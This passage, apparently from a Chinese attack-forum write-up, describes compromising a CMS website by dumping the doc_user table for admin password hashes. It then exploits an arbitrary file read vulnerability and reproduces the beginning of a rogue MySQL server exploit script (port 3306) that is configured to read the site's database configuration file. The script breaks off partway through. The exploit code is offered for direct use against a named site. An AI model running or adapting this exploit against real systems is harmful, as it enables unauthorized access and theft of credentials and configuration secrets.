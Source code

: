 [![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9c685ab04b783dd4677806f0c9a2cbc81e684118.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9c685ab04b783dd4677806f0c9a2cbc81e684118.png)  
获取doc\_user表中的数据，得到后台登录的账号和密码的密文  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-e3085c21d8d5c94918ae91b4289e5e42900c5c99.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-e3085c21d8d5c94918ae91b4289e5e42900c5c99.png)

当得到这一串网站后台的登录密文后，我尝试各种方式破解，结果都无效。要想登录后台还要想办法，于是先寻找网站的后台  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-359aa593c496ae5863c6b8cf717c6c175d777202.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-359aa593c496ae5863c6b8cf717c6c175d777202.png)

任意文件读取漏洞利用
----------

该cms还报过任意文件读取漏洞，直接使用exp进行攻击  
附上师傅写的exp:

```python
#!/usr/bin/env python
#coding: utf8

import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers

PORT = 3306

log = logging.getLogger(__name__)

log.setLevel(logging.INFO)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
    '/www/wwwroot/www.ddd4.com/config/doc-config-cn.php',//为要读取的文件
)

#================================================
#=======No need to change after this lines=======
#================================================

__author__ = 'Gifts'

def daemonize():
    import os, warnings
    if os.name != 'posix':
        warnings.warn('Cant create daemon on non-posix system')
        return

    if os.fork(): os._exit(0)
    os.setsid()
    if os.fork(): os._exit(0)
    os.umask(0o022)
    null=os.open('/dev/null', os.O_RDWR)
    for i in xrange(3):
        try:
```